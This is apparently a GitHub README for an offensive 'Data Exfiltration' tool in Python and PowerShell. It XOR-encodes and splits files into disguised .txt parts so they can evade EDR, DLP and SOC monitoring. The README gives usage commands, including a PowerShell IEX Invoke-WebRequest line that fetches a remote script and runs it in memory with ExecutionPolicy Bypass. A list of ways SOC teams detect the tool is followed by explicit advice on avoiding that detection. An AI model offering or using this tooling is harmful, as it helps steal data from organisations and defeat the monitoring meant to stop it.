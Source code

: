 # Data Exfiltration

## Overview
Data Exfiltration is a **Python and PowerShell** tool that allows you to **convert any file** (e.g., `.exe`, `.pdf`, `.jpg`, `.xlsx`) into disguised `.txt` files. The encoded files can be safely stored and later restored to their original format. This helps in **evading detection** from EDR, DLP, and SOC teams.

## Features
✅ Splits files into multiple parts (`file_part1.txt`, `file_part2.txt`, etc.)
✅ Uses **XOR encryption** with a random key for stealth encoding
✅ **No Base64** (avoiding security tool detection)
✅ Restores files exactly as they were (including executables)
✅ **No file deletion** (Original files remain intact)
✅ Works on **Windows/Linux/macOS**

---

## 🔥 Python Version Usage

### **1️⃣ Install Requirements**
Python 3 is required, but no external dependencies.

### **2️⃣ Convert Files to `.txt`**
```sh
python file_converter.py /path/to/folder
```
- Example: 
  ```sh
  python file_converter.py harsh_imp
  ```
- This will convert all files in `harsh_imp/` into `.txt` parts.

### **3️⃣ Restore Original Files**
```sh
python file_converter.py /path/to/folder --decode
```
- Example:
  ```sh
  python file_converter.py harsh_imp --decode
  ```
- This will merge `.txt` parts and restore the original files.

---

## 💻 PowerShell Version Usage

### **1️⃣ Convert Files to `.txt`**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Harsh\harsh_imp"
```

### **2️⃣ Restore Files from `.txt` Parts**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Harsh\harsh_imp" -decode
```

### **Alternative (Without Saving Script Locally)**
```powershell
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/user/FileConverter.ps1" -UseBasicParsing).Content
Encode-Files -folder "C:\Users\Harsh\harsh_imp"
```

---

## 🚨 Detection Methods by SOC Teams
Although this tool tries to avoid detection, SOC teams can still identify exfiltration attempts through:

1. **Unusual Text File Activity** 📂
   - Large `.txt` files appearing suddenly with high entropy.
   - `.txt` files created with unexpected file sizes (matching original files).

2. **Suspicious File Splitting** 🛑
   - Files broken into parts (`_part1.txt`, `_part2.txt`) detected in **endpoint logs**.
   - Frequent read/write operations on `.txt` files in a short time span.

3. **Behavioral Analysis** 🔍
   - Use of **XOR encoding** flagged by advanced EDR/AV solutions.
   - Abnormal PowerShell execution, especially `Invoke-WebRequest` usage.
   - Processes interacting with `.txt` files in directories not normally used for text-based storage.

4. **Network Traffic Anomalies** 🌐
   - **Outbound `.txt` uploads** with encrypted content to unknown domains.
   - Detection of encoded **XOR patterns in traffic** (if not using HTTPS or encrypted channels).

5. **SIEM & Endpoint Alerts** ⚠️
   - Unusual PowerShell execution (Event ID 4104 - Script Block Logging).
   - File access anomalies via Sysmon (Event ID 11 - File Creation).

### 🛡️ **How to Mitigate Detection**
✔️ Rename `.txt` files to blend in (e.g., `README_part1.txt`).
✔️ Use **steganography** instead of plain XOR.
✔️ Encrypt `.txt` parts using **AES** rather than simple XOR.
✔️ Exfiltrate using trusted processes (e.g., embedding in known applications).

---

## ⚠️ Disclaimer
This tool is for **educational and red team research** purposes only. The author is not responsible for any misuse.

🚀 **Happy Hacking!**

